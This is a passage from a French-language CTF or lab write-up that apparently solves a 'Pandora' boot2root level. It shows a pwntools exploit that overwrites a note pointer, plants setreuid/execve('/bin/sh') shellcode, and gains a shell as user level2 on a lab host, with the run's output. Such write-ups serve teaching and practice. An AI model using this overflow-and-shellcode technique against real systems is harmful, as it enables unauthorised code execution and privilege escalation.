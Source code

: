 ```python
    # Good, now restore structure to the original address
    p.sendline(b"set")
    p.readuntil("> id: ")
    p.sendline(b"0")
    p.readuntil("> text(32 max):")
    p.sendline(b"A"*padding + b"BBBB" + pack("<I", note1_addr))
    p.readuntil("[*] Note 0 set")
    p.readuntil("> ")
    # Let's put out shellcode in note #1
    p.sendline(b"set")
    p.readuntil("> id: ")
    p.sendline(b"1")
    p.readuntil("> text(32 max):")
    p.sendline(setreuid_level2 + execve_bash)
    # p.sendline(b"\xCC" * 64)  # sigtrap for debugging
    p.readuntil("[*] Note 1 set")
    p.readuntil("> ")
    p.sendline(b"exit")
    p.interactive()
```

Sur la partie d'obtention de l'adresse fuitée je regarde si j'obtient un `@` dans l'output car ça correspond au caractère ascii pour la valeur 64 (soit la taille écrit dans le slot).

Je compte 8 octets à fuiter à partir de là soit le 64 sur 32 bits + l'adresse du pointeur.

Mon shellcode se compose d'un `setreuid(1002, 1002)` correspondant à l'UID de l'utilisateur `level2` puis d'un execve `/bin/sh`.

Ca glisse :

```shellsession
$ python remote_pandora.py 
[+] Opening connection to 192.168.56.83 on port 53121: Done
Note #1 addr: 0x09a89070
[*] Switching to interactive mode
$ id
uid=1002(level2) gid=1001(level1) groups=1002(level2),1001(level1)
```

*Publié le 24 décembre 2022*